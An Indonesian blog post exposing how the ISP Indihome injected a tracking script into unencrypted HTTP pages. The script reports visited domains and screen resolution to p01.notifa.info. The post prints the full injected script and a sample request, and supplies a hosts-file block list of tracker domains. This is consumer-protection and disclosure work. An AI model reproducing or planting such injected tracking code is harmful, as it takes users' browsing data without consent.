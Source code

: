 ```yaml
---
published: true
---
```

Indihome adalah salah satu penyedia layanan internet terbesar di Indonesia. Akhir 2019 setidaknya mereka memiliki 7 juta pelanggan yang tersebar di seluruh Indonesia. Tahun 2020 ini mereka menargetkan memiliki 8,3 juta pelanggan. Total pendapatan perusahaan BUMN ini juga fantastis, setiap tahunnya 18 Triliun. Dibalik semua pencapaian itu, Indihome selama ini dikenal sebagai penyedia layanan internet dengan kualitas layanan yang paling banyak mendapatkan keluhan. Keluhan itu sendiri sering kita lihat di berbagai media sosial yang dibagikan oleh para pelanggan mereka.

Saya sendiri juga menggunakan Indihome untuk internet di rumah, karena tak ada pilihan lain. Saat ini rumah saya hanya terjangkau layanan milik Indihome. Setelah menjadi pelanggan Indihome sekian tahun, saya merasakan berbagai macam gangguan yang saya dapatkan selama berlangganan. Setidaknya ketika tulisan ini ditulis, saya akan menjabarkan gangguan yang saya dapatkan yang menurut saya adalah perbuatan yang melanggar hukum. /

Tracker Untuk Mencuri Browsing History Pengguna
Saya menggunakan kata "mencuri" karena mengambil sesuatu tanpa izin sangat tepat disebut mencuri. Selain ini dilakukan secara diam-diam, kebanyakan orang awam pasti tidak menyadari hal ini. Jika kamu berlangganan Indihome di rumah, ketika kamu mengunjungi sebuah website yang belum menggunakan SSL atau tepatnya masih menggunakan http belum https, Indihome akan mengambil browsing history milik kamu ketika kamu mengunjungi website tersebut. Penjelasannya dengan contoh kasus sebagai berikut :

Saya sedang mencari sebuah tutorial di Google menggunakan kata kunci "penyebab bulu kucing kusam", setelah itu google menampilkan artikel berikut ini http://www.petnyaku.com/health/dari-kondisi-bulu-bisa-diketahui-kucing-memiliki-masalah-kesehatan/, ketika saya mengunjungi website tersebut, karena belum menggunakan SSL (masih http) Indihome kemudian bisa menyisipkan sebuah script yang berguna untuk mencuri browsing history milik kita. Ketika kamu view-source website yang kamu kunjungi tersebut, kita akan menemukan script seperti berikut ini di bagian paling bawah :

<script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p01.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582JQuX3gzRncX4P8RMEi6KILNdTu4aXhNvLHVzbE%2fcmJIngqm1SZDgEuphLBm%2f%2f4J1tqyuJYFIkMo%2fASaCza7wmTnLDVhjapRu7oWDCCMdyke7%2bhuxVZH51%2fuUDPDOXYbO3OvmkgHxYCfjjwMLv7OAk2mniAERkIHP0HfTLqo6QXe3pw52b5QLmRu4fOIgzvm88MQ6IJOBTOIPNiJCOi6Chsi9XyFgUfHfgBC17rl8mNyhSAjcshFZFnBd%2ba9uZTBebbZLfKrTdu8upidxRX7Aa3SKTNOaaXkLXkbfgIcB1BZe1i%2f35C0ffGwbfZQzmIjYUmbKvNvzknUAoNu40XCBZM9wBW721NIq4fB0g%2fcyvrUfF3XKmEhpgjeDdA1BzLdrOJL5NFPM%2bsCXDRxhkd4NSkSlNY7H%2bE9qQGWSapNJb3lYnA%2f5RDQqkvOil6xgADRcXjy2bSgJgLgfXC3mH9QMnKPPXBB%2b98E%2bFrOLIh1WtFm2vLLLq6zXs4lMXN%2bi45r%2bTzjQMoMxW5kHIYK%2f8jAJI%2fn%2fx7JgQu56qEc0fTuMy%2bAFXUfdQhfAznNQmIkZE6h9G8Jzze%2fGKPccenLrp3aPzilW%2bjvA%2bb6YWYD4q%2bVNk2fOlg6GYynzBrTpzexxI6BXqmN18k4ZShMLXrN85aeqKg%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script>
Script ini berguna untuk mengirimkan sebuah request ke server milik Indihome. Contoh request nya adalah sebagai berikut :

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan
Jika dilihat dalam versi penuhnya, maka request tersebut akan terlihat seperti ini :

http://p01.notifa.info/3fsmd3/request?id=1&enc=9UwkxLgY9&params=4TtHaUQnUEiP6K%2fc5C582JQuX3gzRncX4P8RMEi6KIKtVIeBXVsA20nWKYcnall52ezULp%2fmcTfNfFan0cuYiikcLCpeACUzm1BNnnttoND4zO0lWiBKmHrmr%2bi0d90xJX8mWy7ZHbcj%2fnUElz3UxVDGSMsk9D8IFPr9ZDr6yQpVB2XSlCgjPMNQqcsjqDmJdgB5HOfuQqM4QVdagHG06ugiNYOHvvZcrSqDU8hd%2bXAoWDzREWfoBmvPR8TGobmg2mbp3lMaVRLp8jIL4%2fRQZGXSBrQ9CvV4%2f2IHJYWvdhQC3l%2fzv%2fvT5Aq8kWuJ4LweWoL0DYhLQJ1Rwm5J8J%2btwOOdma5pOSegNhOqAvJjvR5YJ0aaAgNKadpheMvCbF2yLm%2fn2iWdduS7%2bimKg%2bS5CGCTi3Kpo9Ng24YpdQdyN%2fzLG1ipRo38TJ8ongnstvlpR9Kj9hqpSEqwka%2fxjR%2btvRWQjT19zs5MsP3xXji9qFgAIxM6CBoQbxS21AYbuhVE3PJ8TpV53ccq6LpRa%2f5d%2bRgKoCygtm%2bH5pEvgrCgPtElofFWiLUs3b6NUtmI94nuv%2fAjnfYGtj837edhisK0daWSvke8IjzwChxw2%2bJETgU8e5qqlLCRaHOuJcb1y%2fni8v%2bUdts%2fbjPfa0xlCPa2%2bm%2bKfkojGb9dFiiXan3VK3w%3d&idc_r=61826754674&domain=www.petnyaku.com&sw=2304&sh=1296
Beberapa parameter diatas berguna untuk mengambil browsing history dan juga resolusi layar perangkat yang kamu gunakan.

Website yang kamu kunjungi
domain=www.petnyaku.com
Resolusi layar
sw=2304&sh=1296
Jadi setiap kali kamu mengunjungi sebuah website yang belum menggunakan SSL (masih http) maka Indihome dengan leluasa akan mengambil data website yang kamu kunjungi tersebut.

Dibalik p01.notifa.info
Karena saya merasa cukup terganggu da juga penasaran, saya kemudian mencari tau apa yang ada dibalik website tracker milik Indihome ini hanya bermodalkan Google. Kemudian saya mendapatkan 2 link berikut :

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan
Ketika saya mengakses http://p01.notifa.info/3fsmd3/wsadmin/auth/login, halaman tersebut merupakan tempat untuk login internal yang mungkin digunakan content management, tampilannya adalah sebagai berikut :

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan
Lalu link berikutnya adalah http://p01.notifa.info/info/apc/ :

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan
Halaman ini lebih menarik karena berisi statistik dan juga struktur kode yang digunakan untuk website tracker ini. Pada tanggal 14 September 2020 03:00 WIB, pada tab status total hits mencapai angka 26,681,371,055 (26,6 miliar).

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan
Pada tanggal 15 September 2020, total hits mencapai angka 27,577,810,224 (27,5 miliar)

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan
Maka bisa disimpulkan, dalam waktu sehari website tracker milik Indihome tersebut mendapatkan 1 miliar hits. Lalu jika kita berpindah ke tab Visualise Partition, maka akan didapatkan tampilan seperti berikut. Susunan dibalik layar website tracker milik Indihome

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan
Sampai saat ini saya masih belum tau apa alasan Indihome melakukan ini terhadap para pelanggan mereka. Namun kita semua tahu bahwa data seperti browsing history selama ini adalah data yang laku dijual ke pengiklan.

Peraturan yang dilanggar
Menurut syarat dan ketentuan Indihome, pada point nomor 8, mengatur Larangan bagi Telkom yang berbunyi :

Telkom dilarang melakukan perubahan dalam bentuk apapun terhadap jaringan layanan IndiHome dan dilarang mengenakan sanksi kepada pelanggan kecuali sesuai dengan ketentuan Kontrak Berlangganan.

Saya kemudian mencoba mengkonsultasikan hal ini dengan salah satu peneliti di Tordillas, Ariehta Eleison Sembiring apakah ini termasuk perbuatan yang melanggar atau tidak.

"Pasal 32 ayat 1 UU ITE larang Indihome lakukan hal demikian" ujar Ariehta saat saya hubungi.

Hal ini sebelumnya sudah pernah diadukan ke BRTI oleh pengguna Twitter @antoitb, namun lucunya dari pihak Telkom mengatakan ini legal.


Pencegahan yang dapat dilakukan oleh pelanggan Indihome
Untuk terhindar atau memblokir tracker yang sangat menganggu ini dan gangguan lainnya, kamu bisa menambahkan records berikut yang bersumber dari abdilahrf. Untuk pengguna MacOS dan Linux, tambahkan pada file /etc/hosts sementara untuk pengguna Windows melalui /System32/drivers/etc/hosts :

#INDIHOME 
127.0.0.1 x-tags.net
127.0.0.1 a01.uadexchange.com
127.0.0.1 cdn.uzone.id
127.0.0.1 cdn3.uzone.id
127.0.0.1 cfs.uzone.id
127.0.0.1 csf.uzone.id
127.0.0.1 d01.notifa.info
127.0.0.1 d31qbv1cthcecs.cloudfront.net
127.0.0.1 d5nxst8fruw4z.cloudfront.net
127.0.0.1 expose.uzone.id
127.0.0.1 kendedes.uzone.id
127.0.0.1 mercusuar.uzone.id
127.0.0.1 p01.notifa.info
127.0.0.1 p02.notifa.info
127.0.0.1 p04.notifa.info
127.0.0.1 p03.notifa.info
127.0.0.1 p05.notifa.info
127.0.0.1 usearch.co.id
127.0.0.1 welcome.indihome.co.id
127.0.0.1 upoint.id
127.0.0.1 uzone.id
Selain itu alternatif yang bisa digunakan adalah selalu gunakan VPN ketika terhubung ke suatu layanan internet yang menggunakan Indihome. Jangan gunakan VPN gratis yang tersedia di Play Store ataupun App Store, karena data kamu juga akan diperjualbelikan oleh penyedia layanan VPN tersebut.

Saatnya Perubahan
Saya bukan orang pertama yang mengangkat masalah ini, sebelumnya banyak orang yang sudah menyampaikan keluhan untuk masalah yang sama namun sampai saat ini tidak ada perubahan. Yang kita semua inginkan adalah perubahan agar pihak Telkom menghentikan semua praktek yang sangat menganggu dan melanggar hak konsumen mereka sendiri. Oleh karena itu saya membuat petisi ini dan mengajak kamu semua untuk ikut terlibat dalam perubahan ini. Silakan berikan dukungan kamu dengan mengunjungi dan menandatangani petisi dibawah ini :

Kemenangan
Terima kasih yang sudah membantu untuk ikut meramaikan dan membuat masalah ini menjadi trending topic di Twitter. Website tracker milik IndiHome sepertinya juga sudah di-shutdown. Script yang selama ini selalu disisipkan juga sepertinya sekarang sudah tidak ada lagi.

Sekalipun kita sudah berhasil membuat perubahan, semoga ini sifatnya permanent dan bukan sementara. Tetap awasi dan jangan lengah. Sekali lagi terima kasih, kita berhasil :)

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan

Penutup
Sebagian dari kita mungkin pernah mendengar kalimat berikut :

If you're not paying for the the product, then you are the product.

Tapi ini kita udah bayar kok masih dijadikan produk?

Salam,

Teguh Aprianto
